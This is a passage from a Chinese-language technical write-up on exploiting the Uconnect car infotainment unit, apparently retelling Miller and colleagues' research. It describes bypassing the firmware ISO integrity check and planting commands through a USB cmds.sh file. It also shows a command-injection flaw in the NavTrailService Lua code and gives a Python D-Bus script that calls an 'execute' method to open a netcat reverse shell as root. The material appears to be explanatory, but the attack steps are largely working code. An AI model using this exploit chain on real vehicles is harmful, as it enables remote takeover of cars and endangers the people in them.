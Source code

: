 方法二：方法二面向 14-05-03 版本，这个版本中存在一个绕过ISO完整性验证过程的漏洞。验证过程文件为 "/usr/share/scripts/update/installer/system_module_check.lua" ，用Hex编辑器修改升级ISO文件中的某个字节即可使完整性校验失效。


如果希望在升级过程中运行一些代码，执行一些别的操作，可以修改 "system_module_check.lua" 文件。最有效的绕过某个步骤的方法就是修改 ISO 文件并检查是否绕过了完整性检查，如果确实绕过了那么就不必对完整升级过程进行分析，仅需要30分钟左右就可以使自己的代码生效。此外，可以通过修改 “cmds.sh” 使完整升级过程中止。经 Miller 等人的尝试，“升级模式”下仅部分文件和功能可挂载和使用，如网络连接等功能不能启用，但也证明了车机重启后所修改的内容可持续发生作用，为后续漏洞利用提供了方法和支撑。“正常模式”下，可以访问所有文件系统，包括网络连接，篡改植入的代码可以修改 “boot.sh" 文件，使篡改后代码可在“正常模式”下运行。通过篡改，可以达到执行任意代码的效果，例如把“修改root口令、开启/fs/mmc0/app/bin/sshd”等待执行代码写入USB设备中的“cmds.sh”, Uconnect若在启动时检测到它，就会加载执行。效果如下所示：

```sh
ssh root@192.168.5.1
******************************** CMC ********************************
Warning - You are knowingly accessing a secured system. That means
you are liable for any mischeif you do.
*********************************************************************
root@192.168.5.1's password:
```

通常，攻击者希望将文件传到 Uconnect 系统中，这可以使用 `mount -uw /fs/mmc0/` 命令，以读写方式挂载 mmc0 分区。


## 渗透 D-Bus 服务

D-Bus 系统可以匿名访问并且用于进程间通信，所以寻找其中漏洞并利用它是自然又重要的，这种弱防护的复杂服务最有可能含有代码注入、越权、信息泄露、内存冲突等风险。通过进一步分析，Miller 等人发现了一个重要的 D-Bus 服务 “NavTrailService”，它的代码实现在 “/service/platform/nav/navTrailService.lua” 中。这是一个Lua脚本，所以寻找命令注入类漏洞是首选，Miller 等人也确实发现了一些可疑点：

```lua
function methods.rmTrack(params, context)
 return {
  result = os.execute("rm \"" .. trail_path_saved .. params.filename .. "\"")
 }
end
```

这里的“rmTrack”方法存在一个命令注入漏洞，允许攻击者通过指定一个文件名，来调用D-Bus方法运行任意的shell命令。类似的情况还在其他函数中可以看到，特别是处理用户交互的一些功能中。但是，命令注入其实没有必要，因为 “NavTrailService” 服务提供了一个 “execute” 方法用来执行任意shell命令，这是系统预留的一个功能而不是漏洞，下面是“NavTrailService” 服务中所有可用的方法：

```
"com.harman.service.NavTrailService":
{"name":"com.harman.service.NavTrailService",
"methods":{"symlinkattributes":"symlinkattributes","getProperties":"getPr
operties","execute":"execute","unlock":"unlock","navExport":"navExport","ls":"ls","attributes":"attributes","lock":"lock","mvTrack":"mvTrack","getTracksFolder":"getTracksFolder","chdir":"chdir","rmdir":"rmdir","getAllProperties":"getAllProperties","touch":"touch","rm":"rm","dir":"dir","writeFiles":"writeFiles","setmode":"setmode","mkUserTracksFolder":"mkUserTracksFolder","navGetImportable":"navGetImportable","navGetUniqueFilename":"navGetUniqueFilename","mkd
ir":"mkdir","ls_userTracks":"ls_userTracks","currentdir":"currentdir","rmTrack":"rmTrack","cp":"cp","setProperties":"setProperties","verifyJSON":"verifyJS
ON"}},
```

可以看出，在车机上以 root 身份执行命令是比较容易的，特别是车机上默认安装了很多常见的通信工具，例如 netcat。下面4行Python代码是开启一个远程shell的示例：

```python
#!python
import dbus

bus_obj=dbus.bus.BusConnection("tcp:host=192.168.5.1,port=6667")
proxy_object=bus_obj.get_object('com.harman.service.NavTrailService','/com/harman/service/NavTrailService')
playerengine_iface=dbus.Interface(proxy_object,dbus_interface='com.harman.ServiceIpc')
print playerengine_iface.Invoke('execute','{"cmd":"netcat -l -p 6666 | /bin/sh | netcat 192.168.5.109 6666"}')
```
